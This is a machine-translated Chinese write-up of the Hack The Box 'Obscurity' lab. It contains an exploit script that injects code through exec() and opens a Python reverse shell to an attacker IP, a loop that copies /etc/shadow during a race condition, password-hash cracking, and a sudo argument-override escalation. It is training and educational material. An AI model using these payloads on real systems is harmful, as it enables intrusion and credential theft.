# [HTB]默默无闻——记

> 原文：<https://infosecwriteups.com/htb-obscurity-write-up-bc65f61cd255?source=collection_archive---------0----------------------->



欢迎来到淫秽报道！这是一个中等难度的 Linux 盒子，要求玩家在基于 python 的 web 服务器中找到一个缺陷，以获得初始访问权。一旦我们获得了反向 shell 的初始访问权，那么，我们将需要分析另一个加密密码的 python 脚本。然后，我们可以进行已知明文攻击(“KPA”)来恢复第二个用户的密码。最后，对于 root 访问，我们可以滥用现有 BetterSSH.py 脚本上的竞争条件来读取`/etc/shadow`文件并破解“root”用户的密码。非常有趣的盒子，让我们开始吧！



# 侦察

_________________________________________________________________

# Nmap

让我们从使用以下命令进行初始端口扫描开始:

```
$ nmap -Pn — open -sC -sV -p- -T4 10.10.10.168
```



## 值得注意的有趣端口:

*   **HTTP (8080/TCP)** —盒子上只开放感兴趣的端口。很明显，这将是某种类型的网络相关的挑战，以获得最初的访问。当我们访问 url (http://10.10.10.168:8080)时，我们会看到以下内容:



我们可以读到这个网站的一些意图/格言:



但是有一个有趣的内容是下面的。它表明我们可以在一个秘密目录中看到当前的 web 服务器源代码(“SuperSecureServer.py”):



## 网络目录模糊化

知道了这一点，让我们开始模糊化 web 目录，以便找到“SuperSecureServer.py”可能位于何处。我使用了名为 [ffuf](https://github.com/ffuf/ffuf) 的网络模糊器。(是用 Go 写的，超级快。我们也可以很容易地定制像打嗝模糊点。)



当我们进入`/develop/SuperSecureServer.py`时，我们可以看到 web 服务器的源代码。



# 初始立足点+用户访问#1 (www-data)

_________________________________________________________________

## 源代码分析

当我们对 python 代码进行快速静态分析时，我们可以在以下位置发现一个可疑的“exec()”函数。



使用“exec()”，我们可以执行 python 系统调用来执行系统命令:

```
**### Example Usage of exec()**
# python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
>>> import os
>>> exec(os.system("whoami"))
root
```

**网络服务器上的远程代码执行(RCE)**

为了理解执行 python 代码的正确语法，我们可以创建上述易受攻击代码的简化版本进行测试:

```
**[exploit.py] - Local RCE Attempt**import os
import urllib.parsepath = **"""'; os.system("whoami");'"""** path = urllib.parse.unquote(path)
info = "output = 'Document: {}'"
exec(info.format(path))
```

当我们在本地机器上运行 exploit.py 时，我们得到以下输出:



很好。让我们更新我们的脚本，看看我们能否在盒子上做一个 RCE。

```
**[exploit.py] - Remote "Ping" Command Attempt**import os
import urllib.parse
import requestsurl = '[http://10.10.10.168:8080/'](http://10.10.10.168:8080/')path = **"""'; os.system("ping -c 1 10.10.14.39");'"""**# URL Encode Mode
path = urllib.parse.unquote(path)
#info = "output = 'Document: {}'"
#exec(info.format(path))r = requests.get(url + path)print(r.status_code)
print(r.headers)
print(r.text)
```

当我们运行 exploit.py 时，我们可以在机器上确认成功的 RCE。



## 反向外壳

使用来自 [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的 python 反向 shell 一行程序，我们可以更新 exploit.py。

```
**[exploit.py] - Python Reverse Shell**import os
import urllib.parse
import requestsurl = '[http://10.10.10.168:8080/'](http://10.10.10.168:8080/')path = **"""'; import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",8055));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""**# URL Encode Mode
path = urllib.parse.unquote(path)
#info = "output = 'Document: {}'"
#exec(info.format(path))r = requests.get(url + path)print(r.status_code)
print(r.headers)
print(r.text)
```

当我们运行 exploit.py 时，我们将成功获得作为“www-data”用户的反向 shell。


# 用户访问#2(罗伯特)

_________________________________________________________________

为了升级到另一个用户(“robert”)，我们需要解决另一个 python 脚本挑战。我们可以在“罗伯特”的主目录中看到几个有趣的文件。



*   **SuperSecureCrypt.py** :这是一个用于加密/解密文件的脚本。



“SuperSecureCrypt.py”脚本的第一部分

*   **check . txt**:ASCII 文本文件。这份文件说:

```
check.txt + key ----[Encrypt]----> out.txt
```



*   **out.txt** :这是一个 UTF 8 Unicode 文本。这是加密的 check.txt 文件的输出文件。



*   **passwordreminder.txt** :也是 UTF 8 Unicode 文本。假设这是某种类型的密码文件，我们需要一个有效的密钥来解密它。



## 已知明文攻击(“KPA”)

所以在 check.txt 和 out.txt 文件之间，我们知道明文和加密文件，但不知道密钥。然而，由于我们有加密文件的明文+源代码，我们可以做一个 KPA 来检索密钥。

python 加密/解密脚本已经给了我们，我们可以看到它的帮助页面:



这是不言自明的。为了得到一把钥匙，让我们供给

```
**### KPA Attack**
$ python3 SuperSecureCrypt.py -i out.txt -o /dev/shm/key.txt -k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' -d-i = out.txt                       **# File that we want to decrypt**
-k = plaintext from check.txt      **# Supplying the plaintext as key** 
-o = key.txt                       **# Output for the key**
-d                                 **# Decrypt mode**
```



当我们打开 key.txt 文件时，我们可以看到 key = alexandrovich。(似乎每个角色都在重复)

```
$ cat /dev/shm/key.txt
**alexandrovich**alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```



有了这个密钥，我们现在可以解密 passwordreminder.txt 文件，以获得“robert”用户的明文密码。

```
**### Getting robert's Password**
$ python3 SuperSecureCrypt.py -i passwordreminder.txt -o /dev/shm/robert_pw.txt -k 'alexandrovich' -d 
```



## user.txt

有了这个密码，我们现在可以作为“robert”用户登录并读取`user.txt`文件。(我们也可以将 SSH 与“robert”用户凭证一起使用。)



# 根访问

_________________________________________________________________

我们可能要检查的第一件事是“robert”用户是否可以执行任何`sudo`操作。并且，它发现用户可以做`sudo`来运行 BetterSSH.py 脚本。看起来这将是另一个 python 挑战。(就像 pythonPythonPYTHON :P)



## 路径#1 —竞争条件利用

从 python 脚本中我们可以发现，它读取`/etc/shadow`文件来检查输入的用户密码。但它实际上是将`/etc/shadow`写入`/tmp/SSH/<Some Random Gibberish>`文件→休眠 0.1 段→然后将其删除。我们可以做一个竞态条件，在文件被删除之前复制它。


为了利用这一点，我们可以创建一个简单的无限循环，将所有内容从`/tmp/SSH`复制到“robert”用户可以访问和阅读的其他地方。在运行时，我们将运行`sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`命令将`/etc/shadow`文件写入`/tmp`目录。

```
$ cat /tmp/copy.sh 
#!/bin/bashmkdir = '/tmp/SSH'while true
do
        cp /tmp/SSH/* /dev/shm/
done
```



一旦通过身份验证，我们就可以检查`/dev/shm`并看到复制的`/etc/shadow`文件和“根”密码散列。



用 rockyou.txt 单词表把散列输入 John。这将破解“root”用户密码=“奔驰。”



## root.txt

有了这个密码，我们可以`su — root`将我们的权限提升到“root”用户，并读取`root.txt`文件。



## 路径#2 — Sudo 用户覆盖漏洞

仍然利用 BetterSSH.py 脚本，我们可以进行另一次权限提升。一旦通过验证，它就开始一个`while True:`循环来打开另一个 cmd shell。


这可能会被滥用，因为 Linux 倾向于优先使用最后提供的参数。举个例子，

```
_____Hidden_____|_______Display________
(sudo -u robert) $ id                     **# Takes robert**
(sudo -u robert) $ -u root id             **# Takes root**
(sudo -u robert) $ -u root -u robert id   **# Takes robert**
```



这样，我们也可以简单地对`root.txt`文件进行 cat。



# 结论

_________________________________________________________________

这真的很有趣，box 进行了大量的代码审查，并利用了代码中易受攻击的函数。它相当 python 化，但是我们不都喜欢用 python 做任何事情吗？:)老实说，做淫秽盒子真的是一次有趣的旅程。

希望你喜欢我的文章，感谢你的阅读！

